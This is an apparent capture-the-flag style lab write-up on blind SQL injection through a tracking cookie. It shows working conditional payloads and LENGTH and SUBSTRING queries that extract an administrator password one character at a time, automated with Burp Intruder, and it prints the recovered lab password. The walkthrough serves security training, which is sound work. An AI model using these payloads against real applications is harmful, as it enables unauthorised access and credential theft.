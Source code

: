 # Lab: Blind SQL injection with conditional responses

## Description

* This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. *

---

# STEP 1: Verify Blind SQLi

The page with a normal tracking cookie

![image](https://user-images.githubusercontent.com/83407557/169717979-383b0251-ea74-43d2-980f-4b40ae2f6578.png)

## with a conditionally true payload of 

```sql
'and 'a'='a
```

![image](https://user-images.githubusercontent.com/83407557/169718045-1a2378d7-ae0f-4245-89b5-1b44198ee40b.png)

I get the welcome back message

## sending a conditionally false payload:

```sql
'and 'a'='b
```

![image](https://user-images.githubusercontent.com/83407557/169718103-df5dc3e6-0329-4db5-bab6-ed5af585af08.png)

being false the welcome back message goes away

# STEP 2: Determine target table, columns, and rows

Normally this step would involve conditionals to build out the names of the tables in the database and then their columns, however for this lab they are provided. My target is the password of the administrator user:

table: users

columns: username, password

row: administrator, target

# STEP 3: Determine the length of the administrator's password

I can use a greater than and sequential numbers. I should get the welcome back message until I go one number past the length of the password.

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
Greater than 1?
![image](https://user-images.githubusercontent.com/83407557/169718804-41d3570a-fe58-491e-b253-96966dc62fc6.png)
Greater than 2?
![image](https://user-images.githubusercontent.com/83407557/169718841-83cc12ec-e65d-4be9-9c8d-cbbcddb15e42.png)
Greater than 3?
![image](https://user-images.githubusercontent.com/83407557/169718861-1006c697-7726-4534-8914-7482e9709a4c.png)
ect...

until

![image](https://user-images.githubusercontent.com/83407557/169718920-b66bd139-2021-47ec-a95a-0466775a0b48.png)

Letting me know that the administrator's password is 20 character's long

# STEP 4: Using subsrings to build the password

Substrings from sql cheat sheet:

![image](https://user-images.githubusercontent.com/83407557/169719316-0a633d86-7e92-4286-8d86-46b20e3160b3.png)

So to see if the first letter is an a:

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

and to see if the second letter is an a

```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```




if the first letter is not an a, no error message will show up. With burp intruder I can iterate through all letters and numbers until I get the welcome back message:

![image](https://user-images.githubusercontent.com/83407557/169726974-e9a22d24-4e04-4f88-9212-e20b937967f3.png)

![image](https://user-images.githubusercontent.com/83407557/169727014-af681e32-ae18-452c-bbc3-3186d8579c10.png)

and flagging the message:

![image](https://user-images.githubusercontent.com/83407557/169727041-58dfc1bf-575b-436f-a01c-6840db745f42.png)

I can see that the first letter is a d:

![image](https://user-images.githubusercontent.com/83407557/169727108-9a8bc96f-c2bf-47c5-8761-97e6d6dc1e45.png)

the second letter is an s:

![image](https://user-images.githubusercontent.com/83407557/169727227-4d8a19e9-4088-4c08-87b9-4ceeecbbf313.png)


until I build out all 20 characters by running this attack for all 19 characters in the password:

![image](https://user-images.githubusercontent.com/83407557/169728646-250de74d-3962-40fc-8d7b-670da0e8a730.png)

ds42d4fv8kw58ddpoq70

which allows me to log in

![image](https://user-images.githubusercontent.com/83407557/169729271-e9c4c0e9-e1a8-4056-94e8-dd1bdd20787b.png)
